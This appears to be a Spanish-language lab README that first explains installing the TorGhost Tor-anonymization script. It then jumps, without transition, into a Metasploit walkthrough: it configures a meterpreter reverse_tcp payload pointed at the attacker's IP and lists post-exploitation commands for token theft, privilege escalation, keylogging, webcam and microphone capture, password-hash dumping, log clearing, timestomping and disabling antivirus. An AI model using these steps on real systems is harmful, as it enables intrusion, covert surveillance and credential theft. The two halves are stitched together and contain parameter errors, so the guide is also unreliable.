

# 	TorGhost 

> [!IMPORTANT]
> Laboratorio TorGhost (Kali Linux 2023.4). TorGhost es un script de anonimización que redirige todo el tráfico de Internet a través de SOCKS5 TOR Proxy. Las solicitudes de DNS también se redirigen a través de Tor, evitando así DNSLeak, además de desactivar los paquetes inseguros que salen del sistema (solicitud de ping entre otros), los cuales pueden comprometer su identidad.

> ### Trabajando con TorGhost: Instalación y configuración :computer:
> TorGhost tiene las siguientes características:
> - Redirección de todo el tráfico de red hacía la red TOR, es decir, cualquier conexión del equipo que intente conectarse a Internet pasará por ella.
> - No se filtrará ningún ping, lo que protege nuestra identidad.
> - Fuerza a las aplicaciones a pasar por ella (al contrario que ProxyChain). 
> - Rechaza peticiones entrantes y salientes que puedan contener información sensible o pueda revelar nuestra IP real.
> - Protege de la fuga de DNS, permitiendo usar un DNS remoto anónimo.

- <b>Paso 1</b>: Se deberá clonar el repositorio en el equipo, para cual se codifica:
<b>

```
git clone https://github.com/susmithHCK/torghost.git
```
</b>

- <b>Paso 2</b>: Ahora, se procede entrar en la carpeta del sistema en la que se ha descargado TorGhost. Una vez dentro de la correspondiente carpeta, se dan los permisos de ejecución al archivo de instalación mediante el siguiente código:
<b>

```
chmod +x build.sh
```
</b>

Se instalará el paquete completo en el sistema gracias al siguiente código:
<b>

```
./build.sh
```
</b>

Es posible que no funcione la construcción del archivo sh, por lo que se podrá optar por instalar los requerimientos que pide la aplicación al sistema utilizando el siguiente código:
<b>

```
pip install -r requirements.txt
```
</b>


- <b>Paso 3</b>: Se arranca la aplicación TorGhost:
<b>

```
python3 torghost.py
```
</b>

En este momento, aparecerá una pantalla similar a la siguiente imagen:

<picture>
  <source media="(prefers-color-scheme: dark)" srcset="torghost_1.png">
  <source media="(prefers-color-scheme: light)" srcset="torghost_1.png">
  
</picture>


- <b>Paso 4</b>: Volviendo a Metasploit Framework, configuramos el payload con el que se va a realizar la escucha, es decir, con el que realmente se ha infectado al host objetivo.
<b>

```
# Para un sistema de 64 bits
set payload windows/x64/meterpreter/reverse_tcp
```
```
# Para un sistema de 32 bits
set payload windows/meterpreter/reverse_tcp
```
</b>

- <b>Paso 5</b>: Posteriomente, se configuran la ip y puerto del atacante (escucha)
<b>

```
set LHOST=[ip_atacante]
```
```
set RHOST=[puerto_atacante]
```
</b>
- <b>Paso 6</b>: Ya configurado el payload (cargado en el sistema objetivo, claro está) y el Meterpreter, se procede a realizar el comienzo de ejecución del ataque como tal desde la consola de Metasploit Framework:
<b>

```
exploit
```
</b>

> A partir del momento de ejecución de payload en el host objetivo, ya estará disponible el acceso al sistema remoto, momento en el cual podremos utilizar cualquiera de los siguientes comandos de Meterpreter:

- <b>sysinfo</b>: Muestra la información del sistema en el destino remoto.
- <b>ls</b>: Lista de archivos y carpetas en el objetivo.
- <b>use priv</b>: Carga el privilegio de la extensión para extender la librería de Meterpreter.
- <b>ps</b>: Muestra todos los procesos en ejecución y que cuentas están asociadas con cada proceso.
- <b>migrate PID</b>: Migra específicamente el proceso de ID (PID es el objetivo del proceso ID obtenido desde el comandos PS)
- <b>use incognito</b>: Cargar funciones de incógnito, acciones que se utilizan para robar fichas ysuplantación de una máquina de destino.
- <b>list_tokens -u:</b> Lista los token disponibles en el objetivo por el usuario.
- <b>list_tokens -g</b>: Lista los token disponibles en el objetivo por el grupo.
- <b>impersonate_token DOMAIN_NAME\\USERNAME</b>: Se hace pasar por un token disponible en el objetivo.
- <b>steal_token PID</b>: Roba los token disponibles para un determinado proceso y hacerse pasar por esa señal.
- <b>drop_token</b>: Deja de hacerse pasar porel token actual.
- <b>getsystem</b>: Intento de elevación de permisos de acceso a nivel de sistema a través de múltiples vectores de ataque.
- <b>shell</b>: Se abre un shell interactivo con todas las órdenes disponibles.
- <b>execute -f cmd.exe -i</b>: Ejecuta rcmd.exe e interactua con él.
- <b>execute -f cmd.exe -i -t</b>: Ejecuta cmd.exe con todas las órdenes disponibles.
- <b>execute -f cmd.exe -i -H -t</b>: Ejecutar cmd.exe con todas las órdenes disponibles, convirtiéndolo en un proceso oculto.
- <b>rev2self</b>: Vuelve al usuario original que se utilizó para poner en peligro el objetivo.
- <b>reg command</b>: Interactua, crea, elimina, consulta, setea... y mucho más en el registro del destino.
- <b>setdesktop number</b>: Cambia a una pantalla diferente en función de quién está conectado.
- <b>screenshot</b>: Se graba una captura de pantalla de la pantalla del host objetivo en el host atacante.
- <b>Record_mic</b>: Con este parámetro podremos activar el micrófono y grabar guardando en el host atacante en un archivo de audio indicado. Se ha de tener en cuenta que (por defecto) siempre grabará en segundos, a no ser que se indique con el parámetro d el número de segundos a grabar.
- <b>Webcam_chat</b>: Se establece comunicación con la víctima, es decir, realizar un video chat.
- <b>Webcam_list</b>: Proporciona una lista de las webcams que tenga el equipo.
- <b>Webcam_snap</b>: Se puede activar la webcam y realizar una foto de lo que se esté viendo en ese instante.
- <b>Webcam_stream</b>: Con esta instrucción se activa la webcam y se visualiza en tiempo real.
- <b>upload file</b>: Subir un archivo al objetivo.
- <b>download file</b>: Descargar los archivos desde el objetivo.
- <b>keyscan_start</b>: Detección de las pulsaciones de teclado en el destino remoto.
- <b>keyscan_dump</b>: Volcado de las pulsaciones de teclas del host capturado.
- <b>keyscan_stop</b>: Dejar de detectar las pulsaciones de teclado en el destino remoto.
- <b>getprivs</b>: Obtener tantos privilegios como sea posible en el objetivo, siempre teniendo en cuenta que es posible que tengamos el máximo de privilegios.
- <b>uictl enable keyboard/mouse</b>: Toma el control del teclado y/o ratón.
- <b>background</b>: Ejecuta el shell actual de Meterpreter en segundo plano.
- <b>hashdump</b>: Volcado de todos los hashes en el objetivo.
- <b>use sniffer</b>: Carga del módulo sniffer.
- <b>sniffer_interfaces</b>: Lista los interfaces disponibles del objetivo.
- <b>sniffer_dump interfaceID pcapname</b>: Ejecuta el sniffer en el destino remoto.
- <b>sniffer_start interfaceID packet-buffer</b>: Comienza a ejecutar el sniffer con una gama específica para un buffer de paquetes.
- <b>sniffer_stats interfaceID</b>: Coge la información de estadística de la interfaz que está en sniffer.
- <b>sniffer_stop interfaceID</b>: Detención del sniffer.
- <b>add_user username password -h ip</b>: Agrega un usuario en el destino remoto.
- <b>add_group_user “Domain Admins” username -h ip</b>: Añade un nombre de usuario al grupo Administradores de dominio en el destino remoto.
- <b>clearev</b>: Borra el registro de eventos en el equipo de destino.
- <b>timestomp</b>: Cambia los atributos de archivo, como fecha de creación (método antiforensics)
- <b>reboot</b>: Reinicia el equipo de destino.
- <b>Getcountermeasure</b>: Permite deshabilitar medidas de seguridad como antivirus, firewalls y otros.
- <b>Gettelnet</b>: Se utiliza para habilitar telnet en la máquina de la víctima.
- <b>Checkvm</b>: Comprobación si está ejecutando una máquina virtual o no.
- <b>KillAV</b>: Permite desactivar la mayoría de los programas antivirus.
- <b>ScreenSpy</b>: Realiza capturas de pantalla de forma remota.
- <b>scrapper</b>: Permite importar una gran cantidad de información sobre el objetivo (el registro, hash, usuarios,…) a nuestra computadora.